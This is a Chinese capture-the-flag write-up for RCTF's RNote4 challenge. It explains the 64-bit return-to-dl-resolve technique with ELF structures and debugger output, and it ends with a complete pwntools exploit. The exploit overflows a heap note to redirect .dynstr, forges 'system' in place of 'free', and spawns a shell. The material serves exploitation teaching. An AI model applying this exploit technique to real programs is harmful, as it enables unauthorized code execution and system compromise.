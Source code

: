 # RCTF RNote4
## Author: Wenhuo
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>checksec一下，NO RELRD，NO PIE，利用dll_resolve来getshell很简单。如果没有学过如何利用dll_resolve的可以配合这两篇文章先学习一下：[看雪](https://bbs.pediy.com/thread-227034.htm)，[BruceFan](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>但鉴于这两篇文章都是讲32位下的，我这里再补充一下64位下的不同的地方：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>Elf64_Sym结构和Elf64_Rel结构如下：</font></br>

```C
typedef struct{
Elf64_Word st_name;
unsigned char st_info;
unsigned char st_other;
Elf64_Section st_shndx;
Elf64_Addr st_value;
Elf64_Xword st_size;
}Elf64_Sym;

typedef struct{
Elf64_Addr r_offset;
Elf64_Xword r_info
}Elf64_Rel;


//elf.h
typedef uint32_t Elf64_Word;
typedef uint64_t Elf64_Xword;
typedef uint16_t Elf64_Section;
typedef uint64_t Elf64_Addr;

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>根据elf.h的定义，64位下的Elf64_Sym大小应该是0x18,Elf64_Rel大小是0x10，还有一个比较坑的地方就是我用readelf -S看节区的时候是这样的：</font></br>

```C
 [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align

[ 5] .dynsym           DYNSYM           00000000004002c0  000002c0
       0000000000000138  0000000000000018   A       6     1     8

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这个.dynsym好像还有一个EntSize，所以在算Elf64_Sym指针的时候还要加一个0x18，不然算不对。接下来我还是手动演示一遍如何以dl_resolve的角度得到free字符串的地址吧。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>首先用readelf -r RNote4得到以下信息：</font></br>

```C
Wenhuo@Wenhuo:~/Desktop$ readelf -r RNote4

Relocation section '.rela.dyn' at offset 0x4d0 contains 2 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000601ff8  000800000006 R_X86_64_GLOB_DAT 0000000000000000 __gmon_start__ + 0
000000602080  000c00000005 R_X86_64_COPY     0000000000602080 stdin@GLIBC_2.2.5 + 0

Relocation section '.rela.plt' at offset 0x500 contains 10 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000602018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 free@GLIBC_2.2.5 + 0
000000602020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 __stack_chk_fail@GLIBC_2.4 + 0
000000602028  000300000007 R_X86_64_JUMP_SLO 0000000000000000 memset@GLIBC_2.2.5 + 0
000000602030  000400000007 R_X86_64_JUMP_SLO 0000000000000000 alarm@GLIBC_2.2.5 + 0
000000602038  000500000007 R_X86_64_JUMP_SLO 0000000000000000 read@GLIBC_2.2.5 + 0
000000602040  000600000007 R_X86_64_JUMP_SLO 0000000000000000 __libc_start_main@GLIBC_2.2.5 + 0
000000602048  000700000007 R_X86_64_JUMP_SLO 0000000000000000 calloc@GLIBC_2.2.5 + 0
000000602050  000900000007 R_X86_64_JUMP_SLO 0000000000000000 setvbuf@GLIBC_2.2.5 + 0
000000602058  000a00000007 R_X86_64_JUMP_SLO 0000000000000000 atoi@GLIBC_2.2.5 + 0
000000602060  000b00000007 R_X86_64_JUMP_SLO 0000000000000000 exit@GLIBC_2.2.5 + 0

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后直接x/10xg 0x602018来到rel指针处：</font></br>

```C
pwndbg> x/10xg 0x602018
0x602018:	0x0000000000400626	0x0000000000400636
0x602028:	0x00007ffff7b7f970	0x0000000000400656
0x602038:	0x0000000000400666	0x00007ffff7a2d740
0x602048:	0x0000000000400686	0x00007ffff7a7ce70
0x602058:	0x00000000004006a6	0x00000000004006b6

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>第一项的0x400626就是rel指针了，然后x/g 0x400626得到free的Elf64_Rel的结构信息：</font></br>

```C
pwndbg> x/g 0x400626
0x400626 <free@plt+6>:	0xffe0e90000000068

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>r_info>>8就是0了，然后从.dynsym处得到'free\0'的偏移地址，别忘了还有一个0x18:</font></br>

```C
pwndbg> x/g 0x4002c0+0x18
0x4002d8:	0x000000120000005f
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>再从.dynstr里用0x5f这个偏移就可以得到free函数名称字符串了，然后系统就会在动态链接库里根据这个字符串找到地址写入GOT表，我们在这题里就是要想办法让程序找free的时候欺骗它让它把system函数地址放到free里去，然后就可以getshell:</font></br>

```C
pwndbg> x/s 0x4003f8+0x5f
0x400457:	"free"

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以我们首先用readelf -d RNote4和x/20xg 0x601e28(.dynmic的地址)找到.dynstr的地址，然后先把.dynstr的地址修改为我们自己的地址，然后伪造一个字符串表，写上'system\0'，然后就可以欺骗了，最终利用脚本如下：</font></br>

Exploit脚本
========

```python
from pwn import *

DEBUG = 1

if DEBUG == 1:
  s=process('./RNote4')
  context(log_level='debug')
  gdb.attach(s)
else:
  s = remote('rnote4.2018.teamrois.cn',6767)

def alloc(size,data):
        s.send(p8(1))
        s.send(p8(size))
        s.send(data)

def edit(idx,size,data):
        s.send(p8(2))
        s.send(p8(idx))
        s.send(p8(size))
        s.send(data)

def free(idx):
        s.send(p8(3))
        s.send(p8(idx))

alloc(0x98,'A' * 0x98)
alloc(0x98,'A' * 0x98)
edit(0,0xb0,'B' * 0x98 + p64(0x21) + p64(0x98) + p64(0x601eb0))
edit(1,0x8,p64(0x602200))

edit(0,0xb0,'B' * 0x98 + p64(0x21) + p64(0x98) + p64(0x602200))
payload = 'A' * 0x5f + 'system\x00'
edit(1,len(payload),payload)

edit(0,0x8,'/bin/sh\x00')
free(0)

```
